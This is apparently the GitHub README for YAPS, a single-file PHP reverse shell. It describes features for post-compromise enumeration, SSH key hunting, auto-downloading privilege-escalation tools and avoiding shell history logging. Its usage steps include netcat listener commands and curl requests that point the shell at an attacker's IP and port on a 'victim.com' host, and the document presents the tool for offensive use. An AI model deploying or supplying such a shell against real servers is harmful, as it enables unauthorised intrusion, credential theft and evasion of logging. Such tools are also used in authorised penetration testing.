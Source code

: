 # YAPS - **Y**et **A**nother **P**HP **S**hell

Yeah, I know, I know... But that's it. =)

As the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there. It is a single PHP file containing all its functions and you can control it via a simple netcat listener (`nc -lp 1337`).

In the current version (1.0), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs. =)

## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Can do some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via web request (`curl -x POST -d "x=ip&y=port" victim.com/yaps.php` or `curl victim.com/yaps.php?x=ip&y=port`);
3. Open yaps.php on browser or curl it;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`

## Screenshots

![image](https://user-images.githubusercontent.com/3837916/124825185-acd24480-df49-11eb-976f-f9db9328eabe.png)

![image](https://user-images.githubusercontent.com/3837916/124777687-c4dca080-df16-11eb-94b7-ef77127c5f20.png)

![image](https://user-images.githubusercontent.com/3837916/124775570-1b48df80-df15-11eb-8a3d-90090e8b8016.png)

![image](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

![image](https://user-images.githubusercontent.com/3837916/124776296-b641b980-df15-11eb-9a3c-396fe1544825.png)

## Changelog

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to unset HISTSIZE and HISTFILE
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell
